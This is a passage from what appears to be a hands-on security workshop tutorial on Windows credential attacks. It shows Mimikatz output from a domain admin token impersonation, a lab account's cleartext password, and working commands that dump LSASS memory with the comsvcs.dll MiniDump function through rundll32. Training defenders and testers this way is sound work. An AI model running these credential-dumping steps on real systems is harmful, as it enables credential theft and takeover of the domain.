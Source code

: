     ```
    mimikatz # token::elevate /domainadmin
    Token Id  : 0
    User name :
    SID name  : WHEEL\Domain Admins

    5864    {0;00696a49} 3 D 7045543        WHEEL\Administrator     S-1-5-21-3772637088-1800343157-2363924200-500   (16g,24p)       Primary
     -> Impersonated !
     * Process Token : {0;0046d32c} 3 D 6679841     TWORIVERS\Administrator S-1-5-21-3172349730-3661535773-235960969-500    (14g,24p)       Primary
     * Thread Token  : {0;00696a49} 3 D 7413640     WHEEL\Administrator     S-1-5-21-3772637088-1800343157-2363924200-500   (16g,24p)       Impersonation (Delegation)
    ```

**CONGRATS!! You are not elevated to a domain admin account!**

More importantly, you now have the cleartext password of the domain admin account, `WHEEL\Administrator`, which is `12qwaszx!@QWASZX`.

## BONUS 1: LOLBIN Method

The Local Security Authority Subsystem Service (LSASS) process, `lsass.exe`, is essentially the gatekeeper in terms of security and credential checks within Windows. Credentials that live in memory typically reside in the memory pages allocated to this process. As such, TAs often like to dump LSASS memory in order to analyze it offline. For example, the LSASS process space can be dumped and then loaded in Mimikatz. While we are not covering this officially in the workshop, we wanted to provide an example that you can follow when you'd like to learn to on your own.

Many methods exist to dump LSASS, but we'll be covering a method that uses a LOLBIN method known as MiniDump, a function included in the `comsvcs.dll` library.

1. Beginning in an admin-elevated PowerShell console, obtain the process ID (PID) for the `lsass.exe` process:

    ```
    get-process lsass
    ```

    Example output:
    
    ```
    Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
    -------  ------    -----      -----     ------     --  -- -----------
       1850      30    10916      24148              1372   0 lsass
    ```

    **Note that the number listed in the "Id" column, the PID, will most likely be different for you.** Take note of the PID returned when you run your command, as you'll need it in the next step.

1. Ensuring you are still in an elevated prompt, use RunDLL to load the exported function "MiniDump" from the `comsvcs.dll` library. Ensure to replace `[PID]` with the PID of `lsass.exe` running on your system, which you obtained in the previous step.
    
    ```
    rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump [PID] C:\Windows\temp\mini.dump full
    ```
    